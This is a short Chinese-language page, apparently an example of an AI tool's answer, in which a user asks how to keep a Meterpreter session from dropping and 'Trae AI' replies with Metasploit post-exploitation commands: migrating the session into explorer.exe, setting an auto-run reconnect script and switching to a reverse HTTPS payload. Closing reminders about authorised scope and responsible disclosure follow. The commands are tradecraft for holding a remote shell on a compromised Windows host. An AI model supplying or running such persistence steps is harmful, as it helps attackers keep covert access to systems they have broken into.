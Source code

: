 **用戶提問：**
```
Meterpreter session 經常斷開，如何保持穩定連接？
```

**Trae AI 解決方案：**
```
# 遷移到穩定進程
migrate -N explorer.exe

# 設置自動重連
set AutoRunScript multi_console_command -r /root/reconnect.rc

# 使用 HTTPS payload 提高穩定性
set PAYLOAD windows/meterpreter/reverse_https
```

---

**重要提醒：**
- 所有後滲透活動必須在授權範圍內進行
- 及時清理測試痕跡，避免影響生產環境
- 妥善保管收集的敏感信息
- 遵循負責任的漏洞披露原則